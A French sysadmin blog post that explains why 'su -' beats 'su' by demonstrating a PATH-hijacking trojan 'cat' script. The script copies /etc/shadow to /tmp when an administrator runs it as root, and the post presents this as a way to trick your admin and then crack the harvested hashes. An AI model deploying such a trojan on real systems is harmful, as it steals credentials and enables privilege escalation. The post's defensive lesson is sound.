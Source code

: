 title: "Pourquoi utiliser 'su -' plutôt que 'su'"
author: Benoit
date: 2020-10-30 19:32:33 +0100
categories: [sysadmin, linux]
tags: [securite]
math: true
image: /images/security.jpg



`su -` invoque un shell de connexion après avoir changé d'utilisateur. Un shell de connexion réinitialise la plupart des variables d'environnement, fournissant une base propre.

`su` ne fait que changer d'utilisateur, fournissant un shell normal avec un environnement presque identique à celui de l'ancien utilisateur.

Imaginez que vous êtes un développeur de logiciels avec un accès normal à une machine et que votre administrateur ignorant ne vous donne pas l'accès au compte root. Essayons (avec un peu de chance) de le piéger:

Vous connnaisser évidement la commande `cat`qui permet d'afficher le contenu d'un fichier ? Nous allons la piéger en en créant une fausse:

Nous allons la stocker dans le dossier `tmp`

```bash
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
```

Nous créons donc un script que nous allons évidement appeler `cat`
Dans ce script, si l'utilisateur n'est pas root, le script simulera un message de permission refusée.
Si l'utilisateur est root, le script va copier le contenu du fichier `/etc/shadow` dans le dossier `tmp` 
Il va ensuite executer la commande `cat` normalement.

```bash
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; } 
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0
```

Nous allons maintenent rendre le script executable et l'ajouter dans notre `PATH` afin de pouvoir l'executer depuis n'importe quel dossier:

```bash
chmod +x /tmp/evil_bin/cat`
PATH="/tmp/evil_bin:$PATH"
```

Maintenant, allez voir votre administrateur pour lui demander pourquoi vous n'arrivez pas à afficher un fichier avec la commande `cat`.

Il va donc essayer en restant sur votre session mais ce ne sera pas le vrai programme `cat`qui sera lancé mais notre petit script:

```bash
$ ls -l /home/vous/mon-super-fichier
-rw-r--r-- 1 you wheel 41 2020-06-28 13:00 mon-super-fichier
$ cat /home/vous/mon-super-fichier
/bin/cat: Permission denied!
```

Il va donc vouloir essayer avec les droits root en utilisant `su`. Et c'est à ce moment qu'il va faire une erreur. En effet, comme il utilise `su` au lieu de `su -`, les variables d'environnement ne sont pas écrasées. Il va donc une nouvelle fois executer notre script au lieu d'executer la vrai commande `cat`.

```bash
$ su
Password: ...
$ cat /home/vous/mon-super-fichier
du contenu super important dans ce fichier.
$ exit
```

Il aura donc l'impression que tout a fonctionné et fermé la session root. Donc, vous pouvez maintenant dire "Merci monsieur l'admin" ^^ En effet, notre piège a fonctionné: 

Nous avons bien récupéré une copie du fichier `/etc/shadow`qui contient une liste de tous les comptes et les mots de passe chiffrés:

```bash
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2020-06-28 13:02 /tmp/shadow_copy
```

Il ne vous reste plus qu'a tenter de les déchiffrer... et pour ça, je vous laisse lire cet article de l'excellent [korben][korben]

Sources: [StackOverflow][StackOverflow]


[Korben]: https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html
[StackOverflow]: https://stackoverflow.com